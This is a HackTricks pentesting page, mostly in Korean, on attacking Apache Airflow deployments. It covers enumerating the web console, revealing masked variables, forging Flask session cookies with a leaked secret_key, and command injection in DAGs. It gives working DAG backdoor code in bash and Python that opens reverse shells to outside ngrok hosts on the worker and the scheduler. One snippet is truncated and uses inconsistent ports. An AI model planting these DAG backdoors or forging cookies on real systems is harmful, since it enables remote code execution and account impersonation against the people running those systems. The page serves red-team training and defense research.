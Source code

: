 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org)는 **데이터 파이프라인 또는 워크플로우를 조정하고 예약하는 플랫폼**으로 사용됩니다. 데이터 파이프라인의 맥락에서 "조정"이라는 용어는 다양한 출처에서 발생하는 복잡한 데이터 워크플로우를 정리하고, 조정하며, 관리하는 과정을 의미합니다. 이러한 조정된 데이터 파이프라인의 주요 목적은 처리되고 소비 가능한 데이터 세트를 제공하는 것입니다. 이러한 데이터 세트는 비즈니스 인텔리전스 도구, 데이터 과학 및 머신 러닝 모델 등 다양한 애플리케이션에서 광범위하게 사용되며, 이는 빅 데이터 애플리케이션의 기능에 필수적입니다.

기본적으로 Apache Airflow는 **무언가**(이벤트, 크론)가 발생할 때 **코드 실행을 예약할 수 있게 해줍니다**.

### Local Lab

#### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)에서 **docker-compose 구성 파일**을 사용하여 완전한 Apache Airflow 도커 환경을 시작할 수 있습니다. (MacOS를 사용하는 경우 도커 VM에 최소 6GB의 RAM을 할당해야 합니다).

#### Minikube

Apache Airflow를 **실행하는 쉬운 방법** 중 하나는 **minikube로 실행하는 것**입니다:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow는 **민감한 정보**를 구성에 저장할 수 있으며, 약한 구성이 있을 수 있습니다:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow를 공격하기 전에 **권한이 어떻게 작동하는지** 이해해야 합니다:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

**웹 콘솔에 접근할 수 있다면** 다음 정보 중 일부 또는 전부에 접근할 수 있습니다:

* **변수** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
* **연결** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
* `http://<airflow>/connection/list/`에서 접근
* [**구성**](./#airflow-configuration) (여기에 **`secret_key`** 및 비밀번호와 같은 민감한 정보가 저장될 수 있습니다)
* **사용자 및 역할** 목록
* **각 DAG의 코드** (흥미로운 정보가 포함될 수 있습니다)

#### Retrieve Variables Values

변수는 Airflow에 저장될 수 있어 **DAGs**가 **값에 접근**할 수 있습니다. 이는 다른 플랫폼의 비밀과 유사합니다. **충분한 권한**이 있다면 `http://<airflow>/variable/list/`의 GUI에서 접근할 수 있습니다.\
Airflow는 기본적으로 GUI에서 변수의 값을 표시하지만, [**이**](https://marclamberti.com/blog/variables-with-apache-airflow/)에 따르면 **값**이 **별표**로 표시되는 **변수 목록**을 설정할 수 있습니다.

![](<../../.gitbook/assets/image (164).png>)

그러나 이러한 **값**은 여전히 **CLI**를 통해 **가져올 수** 있습니다 (DB 접근이 필요함), **임의의 DAG** 실행, **API**를 통해 변수 엔드포인트에 접근 (API가 활성화되어야 함), **심지어 GUI 자체에서도!**\
GUI에서 이러한 값에 접근하려면 **접근하고자 하는 변수**를 선택하고 **작업 -> 내보내기**를 클릭하면 됩니다.\
또 다른 방법은 **검색 필터링**을 사용하여 **숨겨진 값**에 대해 **브루트포스**를 수행하는 것입니다:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

**`expose_config`** 구성이 **True**로 설정되어 있다면, **User** 역할 및 **이상**에서 **웹에서 구성**을 **읽을 수** 있습니다. 이 구성에는 **`secret_key`**가 나타나며, 이는 유효한 사용자가 **자신의 서명된 쿠키를 생성하여 다른 사용자 계정을 가장할 수** 있음을 의미합니다.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG 백도어 (Airflow 작업자에서 RCE)

**DAGs가 저장된** 위치에 **쓰기 권한**이 있는 경우, **역방향 셸**을 보내는 **하나를 생성**할 수 있습니다.\
이 역방향 셸은 **airflow 작업자 컨테이너** 내에서 실행될 것입니다:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG 백도어 (Airflow 스케줄러의 RCE)

코드의 **루트에서 실행되도록 설정**하면, 이 글을 작성하는 순간에, DAG 폴더에 넣은 후 몇 초 후에 **스케줄러에 의해 실행**됩니다.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG 생성

만약 **DAG 클러스터 내의 머신을 침해**하는 데 성공한다면, `dags/` 폴더에 새로운 **DAG 스크립트**를 생성할 수 있으며, 이 스크립트는 **DAG 클러스터 내의 나머지 머신에 복제**됩니다.

#### DAG 코드 주입

GUI에서 DAG를 실행할 때 **인수를 전달**할 수 있습니다.\
따라서, DAG가 제대로 코딩되지 않았다면 **명령어 주입에 취약**할 수 있습니다.\
이것이 바로 이 CVE에서 발생한 일입니다: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG에서 명령어 주입을 찾기 시작하기 위해 알아야 할 모든 것**은 **매개변수**가 **코드 `dag_run.conf.get("param_name")`**로 **접근**된다는 것입니다.

게다가, 같은 취약점이 **변수**에서도 발생할 수 있습니다(충분한 권한이 있다면 GUI에서 **변수의 값을 제어**할 수 있습니다). 변수는 **다음과 같이 접근됩니다**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
만약 그들이 예를 들어 bash 명령어 안에서 사용된다면, 명령 주입을 수행할 수 있습니다.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
